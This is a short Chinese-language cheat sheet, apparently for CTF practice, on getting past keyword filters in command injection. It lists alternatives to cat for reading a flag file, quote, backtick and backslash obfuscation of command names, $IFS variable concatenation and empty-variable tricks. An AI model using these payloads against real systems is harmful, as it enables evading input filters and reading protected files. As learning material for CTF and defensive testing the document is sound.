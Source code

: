 #### 1.过滤关键字

**替代法**

```text
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
rev:倒过来看
file -f:报错出具体内容
bash -v:报错出具体内容
sh /flag 2>%261 //报错出文件内容
```

**使用特殊符号**

单引号：单引号所见即所得，直接显示单引号里的内容。即单引号里的任何字符都会原样输出，单引号字符串中的变量是无效的。

双引号：先把变量解析之后，再输出。上面的例子中，使用双引号的时候，所见非所得，系统会先计算 $TEST 的值，然后再 echo 出来。

反引号：用于命令替换，即先执行反引号中的语句，再把结果加入到原命令中。

PS：只要引号、双引号闭合就可以运行,反引号除外

```text
单引号：
c''at flag.txt
c'a't 'f'lag.txt
反引号：
c``at flag.txt
``c``a``t ``flag.txt
反斜杠：
ca\t flag.txt
\c\a\t \f\lag.txt
双引号：
c""at flag.txt
"c"at f""lag.txt
```

**拼接法**

```text
a=fl;b=ag;cat$IFS$a$b
```

**空变量绕过**

ps:所有shell未定义的变量均为空变量:

```
$*和$@,$x,${x},$ddd,$LOVE
```
